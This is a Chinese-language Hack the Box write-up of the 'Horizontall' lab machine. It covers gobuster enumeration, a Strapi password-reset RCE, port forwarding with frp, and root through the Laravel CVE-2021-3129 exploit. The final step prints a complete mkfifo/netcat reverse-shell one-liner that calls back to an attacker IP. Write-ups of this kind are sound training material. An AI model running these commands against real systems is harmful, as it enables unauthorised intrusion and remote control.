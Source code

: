 ```yaml
---
title: Horizontall
date: 2022-01-09 20:35:15
tags: Hack the Box
categories: 中间件
---
```


## 信息收集
目标主机只开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6ea98b32b994a8f8a0cf9c759db1cee.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接访问web服务，发现是一个正常的网页，扫描目录也没有发现有价值的信息

```bash
gobuster dir -u "http://horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/common.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f6b30b44e96d409f934b299e104245eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

那我们将注意力转移到子域名上，对子域名进行深入挖掘，发现了一个子域名，那么我们可以实施旁站注入

```bash
gobuster vhost -u http://horizontall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2cf9c69827e84e87b9616816c817376d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
访问这个页面时发现使用的是`strapi`这个CMS
![在这里插入图片描述](https://img-blog.csdnimg.cn/3724c08fac2d427f80427e762141b930.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们依照这个路径进行路径的扫描，发现存在一个admin目录，我们访问发现会跳转到登录表单上

```bash
gobuster dir -u "http://api-prod.horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/19c0c71aaef14180949dead326bc5c37.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
尝试了一遍SQL注入，发现不存在SQL注入的问题。那我们转向中间件漏洞这个方向上，在EDB上查找到存在一个密码重置的RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/fd1458a74a574a918911ef0a1ae87cfe.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/acf1f0e8aea34dacb917647d4ee1f190.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们编辑为一个exp文件，并执行它获取到一个用户交互的shell终端。这里显示用户名和密码是`admin:SuperStrongPassword1`
![在这里插入图片描述](https://img-blog.csdnimg.cn/d93aa5dc52404922aadb13f884d33ccf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录进页面发现存在文件上传点，但是这个并不能进行文件上传getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/8b81cd2146e843a5941549c0bfe46564.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个EXP是存在RCE命令执行的功能的，那我们可以在交互终端上进行反弹一个shell给我们
![在这里插入图片描述](https://img-blog.csdnimg.cn/88522af59e4e42d2bd77c449691c2e62.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们将linpeas.sh脚本下载到目标机器上，尝试看看有没有存在提权的突破点
![在这里插入图片描述](https://img-blog.csdnimg.cn/a7e43564181146d0b3e82efaac54674a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
运行脚本后，但是我们并没有发现任何可提权的点，但是我们查看主机运行的端口可以发现，主机的1337端口正在以root身份运行程序，由于我们用nmap无法扫描出该端口，可以推断主机做了内网端口的转发。
![在这里插入图片描述](https://img-blog.csdnimg.cn/0638be03f2764c3f9db143944921a40f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以使用frp进行内网的端口复用，首先先将`frpc`和`frpc.ini`上传到目标主机上，上传成功后设置好我们本机的ip地址和要转发本地端口和远程端口
![在这里插入图片描述](https://img-blog.csdnimg.cn/5b03de7f59a043c887497c243c893d3d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在目标机器和本机上分别开启监听服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/28bf83b3599646c89714b357a407787f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们访问本机的8000端口，发现是一个由Laravel框架搭建起来的网页程序
![在这里插入图片描述](https://img-blog.csdnimg.cn/8581ba2866b940708a56f715327a7152.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
这个应用程序近年发现一个存在RCE的漏洞，在github上可以搜到对应的EXP漏洞利用脚本，并执行可见漏洞利用成功
[https://github.com/LucifielHack/CVE-2021-3129_exploit](https://github.com/LucifielHack/CVE-2021-3129_exploit)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e95aaf54fdb343a199cf7ec03bc27d52.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们可以反弹一个root的shell到本机上

```bash
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 4445 >/tmp/f"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d4a8f62eb834cb78ddc826a02de9132.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/db008ce7bfb14ce78f99c0d2534651e1.png)
